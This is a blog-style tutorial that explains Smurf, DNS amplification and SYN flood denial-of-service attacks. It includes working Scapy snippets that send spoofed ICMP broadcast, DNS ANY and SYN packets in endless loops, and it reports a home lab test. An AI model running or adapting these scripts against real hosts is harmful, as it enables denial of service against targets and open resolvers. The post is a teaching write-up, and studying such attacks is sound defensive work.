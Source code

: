```yaml
---
title: "An Introduction to a Few Network Attacks"
date: 2019-10-15
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Amplification
  - ICMP Spoofing
  - SYN Floods
  - Scapy
---
```


# Introduction
In a previous [post][dns], we had a look at spoofing DNS responses, which allowed us to redirect users to a web server running on our machine. In this post, we will look at a few network attacks that can lead to a DoS.

The below section is a basic refresher on ICMP and can be skipped. 

# ICMP
Internet Control Message Protocol (ICMP) is a protocol used primarily to report errors (source quench, unreachable destination, etc.) in sending IP packets. An ICMP packet has the following packet format.

![pwned](../../assets/images/icmp_format.png)

The two codes relevant to the Smurf attack are:

1. 8 - for echo request message, and
2. 0 - for echo reply message

The above messages are commonly known as the ping messages and are used to test connectivity issues and obtain statistics about the connections of a network. When a host receives an ICMP echo request, it sends back an ICMP echo reply packet to the sender. The sender uses the replies to compute metrics such as the round trip time.  

# Smurf Attack
Since the IP address fields of an ICMP packet can be spoofed, the attacker can send an ICMP request message to the network's broadcast address claiming to be the target, which results in the target receiving the ICMP responses from all the live hosts on the network. If the number of responses is much higher than what the target can handle, it can result in a DoS. This is the idea behind the Smurf attack. 

This is an amplification of the traffic, i.e., for one packet sent by the attacker, the target receives *n* packets, where *n* is the number of hosts that respond. This dramatically improves the attacker's strength in taking the target down.

The following code can be utilized for a smurf attack.

```python
pkt = IP(src = target_ip, dst = broadcast_ip)/ICMP()
while True:
  send(pkt)
```

That's it. The above 3 lines of code are all it takes to simulate a Smurf attack. But most hosts these days are configured not to respond to an ICMP request on the broadcast address. To get over this hurdle, one mechanism is to send each host an invalid packet. On receiving the invalid packet, a host might send back an ICMP response to the target with the details of the error (larger than what attacker sends).

# DNS Amplification
Another way to attack a target is by spoofing DNS queries. Since the size of a DNS query is smaller than the response, the amount of work done by the attacker to send the DNS queries will be significantly lesser than what the target needs to do to process the replies. The following code shows how this can be done.

```python
while True:
  for name_server in g_name_servers:
    ip = IP(src = g_target_ip, dst = name_server)
    udp = UDP(sport=RandShort(), dport=53)
    dns = DNS(rd = 1,
            qd = DNSQR(
              qname = g_domain,
              qtype = "ANY"		# Play around to see which one returns max answer length
            )
          )

    # Create the spoofed DNS query and send it
    pkt = ip/udp/dns
    send(pkt, verbose = False)
```

The above code takes a list of DNS resolvers and queries each one with a spoofed IP address (set to the target). Each DNS resolver then sends the response to the target instead of the attacker. Since the size of the DNS response is much larger than the size of the query, the attacker has the upper hand while trying to overwhelm the target. If the responses are too many, the target will not be able to function, resulting in a DoS.

## DNS Amplification Results
The following image shows the IP address of the attacker (a Raspberry 3B+)

![smurf-pi](../../assets/images/syn-flood/pi_ifconfig.png)

and below we can see the target's (my laptop) IP address
![smurf-pi](../../assets/images/syn-flood/laptop_ipconfig.png)

We run the script in the following manner.
![smurf-pi](../../assets/images/syn-flood/attack.png)

Looking at the intercepted messages on my laptop, we can see that DNS replies are being received for
queries never sent. We can see that the length of the DNS response is 124 bytes, which is much larger than the query the attacker has sent. 
![smurf-pi](../../assets/images/syn-flood/wireshark-output.png)

# SYN Flood
Moving on to the TCP layer, one attack that can result in a DoS is the SYN flood attack, where an attacker sends a large number of SYNs to various ports of the target and not respond to them. This results in a large number of half-open connections, and before the connections can time out, another SYN is sent to reset the timer. This will eventually lead to a DoS. The following code shows the implementation in python.

```python
  # Create the IP layer
  ip = IP(src = source_ip, dst = g_target_ip)   # Note that the source_ip can be spoofed

	# Create the SYN packet
	tcp = TCP(sport=RandShort(), dport=g_dest_ports, flags="S", seq=42)

	# Create the packet and continuously send it to all the specified ports
	pkt = ip/tcp
	while True:
		send(pkt)
```
# SYN Flood Result
The script is run in the following manner.

![smurf-pi](../../assets/images/syn-flood/syn-flood-pi.png)

The SYN packets can be seen below.

![pwned](../../assets/images/smurf/syn-flood-wireshark.png)

To specify more ports to send packets to, use the `-c` flag.


The full scripts are available on my github [page][page].

# Disclaimer
The attacks mentioned on any posts on my website are to be tested at your own risk. Please do not use them without the permission of the target host. I will not be responsible for any damage caused by running them.  

[dns]: https://fsec404.github.io/blog/DNS-hijacking/#results
[page]: https://github.com/venkat-abhi/network-attacks